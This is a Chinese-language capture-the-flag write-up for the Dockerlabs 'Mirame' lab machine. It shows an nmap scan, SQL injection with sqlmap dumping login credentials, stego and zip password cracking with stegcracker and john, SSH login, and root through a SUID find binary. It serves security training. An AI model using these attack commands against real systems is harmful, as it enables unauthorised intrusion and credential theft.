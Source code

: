 ```yaml
---
title: "Dockerlabs-Mirame"
date: 2025-02-22
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Desktop  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 10:42 CST
Nmap scan report for 172.17.0.2
Host is up (0.000085s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Login Page
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

进入网页是一个登录页面，尝试使用常见的默认账户登陆失败。

## SQL Injection

使用**SQL**注入发现回显了错误信息

![](./images/image-75.png)

使用**sqlmap**进行注入

```
[root@kali] /home/kali/Desktop  
❯ sqlmap -u "http://172.17.0.2/auth.php" --data "username=root&password=root" -p password -vvv
```

![](./images/image-76.png)

```
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+
```

可以使用**admin**的账户登录进去，但是好像导向的就是**page.php**，而**page.php**不需要身份验证就可以进去

而这个查询温度的页面似乎也没有什么用。

尝试访问**172.17.0.2/directoriotravieso/**发现一个图片可以下载

![](./images/image-77.png)

## Zip Crack

尝试使用**steghide**进行提取，不过看起来需要密码

![](./images/image-78.png)

使用**stegcracker**进行密码爆破

```
[root@kali] /home/kali/Mirame  
❯ stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt                                                                                            ⏎
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2025 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'miramebien.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: chocolate
Tried 27 passwords
Your file has been written to: miramebien.jpg.out
chocolate
```

得到密码后再分离文件，发现还要密码。

![](./images/image-79.png)

再爆破压缩包文件

```
[root@kali] /home/kali/Mirame  
❯ zip2john ocultito.zip >> zip.hash 

[root@kali] /home/kali/Mirame  
❯ john zip.hash /usr/share/wordlists/rockyou.txt
```

![](./images/image-80.png)

得到密码为：**stupid1**

```
[root@kali] /home/kali/Mirame  
❯ cat secret.txt  
carlos:carlitos
```

进行**ssh**登录成功

![](./images/image-81.png)

## Root

上传**linpeas**查看详细，发现**find**命令有特殊权限

![](./images/image-82.png)

查看**GTFObins**

- [find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

![](./images/image-83.png)

非常简单

## Summary

`User`：通过**sql**注入泄露出了用户信息，但是我没想到的是居然是作为目录访问。然后获取到图片进行分离，可能涉及到一点Misc的内容。然后爆破压缩包，得到密码进行**ssh**登录。

`Root`：经典的**find**提权不多说了。
